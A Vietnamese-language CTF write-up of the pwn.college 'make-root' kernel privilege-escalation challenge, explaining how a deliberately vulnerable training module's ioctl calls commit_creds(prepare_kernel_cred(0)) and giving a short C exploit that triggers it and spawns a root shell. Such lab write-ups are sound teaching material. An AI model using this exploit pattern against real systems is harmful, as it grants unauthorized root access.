



# pwn.college – Kernel Security: Privilege Escalation

Sau khi git clone môi trường các challenge của pwn.college về mình đã giải bài `make-root` đầu tiên



đâu tiên thì chương trình cho mình file `launch.sh`, đây là file dùng để khởi động challenge này, đoạn mã của file thực hiện việc đóng gói thư mục `fs` thành initramfs, sau đó dùng QEMU để khởi động kernel linux

khi khởi động, `/init` gắn `procfs` vào `/proc`, sau đó nạp modules `make_root.ko`



Modules tạo một mục tên `/proc/pwn-college-root` để chương trình người dùng giao tiếp với kernel, vậy nên để có thể giao tiếp với modules này có thể viết
```C
int fd = open("/proc/pwn-college-root", 0);
```
lúc này `open` sẽ trả về một file descriptor để có thể dùng để giao tiếp với modules của chương trình



khi phân tích module của bài này, mình thấy là module đã cung cấp thao tác `ioctl` , khi mình gọi
```c
ioctl(fd, 0x7001, 0x13371337)
```
nó sẽ thỏa mãn các điều kiện và ngay lập tức gọi đến hàm 
```C
commit_creds(prepare_kernel_cred(0));  
```
`prepare_kernel_cred(0)` sẽ tạo một cred có đặc quyền root, sau đó `commit_creds()` sẽ áp dụng cred đó cho tiến trình hiện tại, vậy nên khi gọi được hàm trên thì sẽ có thể leo thang đặc quyền (privilege escalation)

để khai thác bài này, mình đã tạo một file `attack.c` để giao tiếp với chương trình

```C
#include <assert.h>

int main()
{
	int fd = open("/proc/pwn-college-root", 0);
	assert(fd > 0);
	printf("BEFORE UID: %d\n", getuid());
	ioctl(fd, 0x7001, 0x13371337);
	printf("AFTER UID: %d\n", getuid());
	system("/bin/sh");
}
```
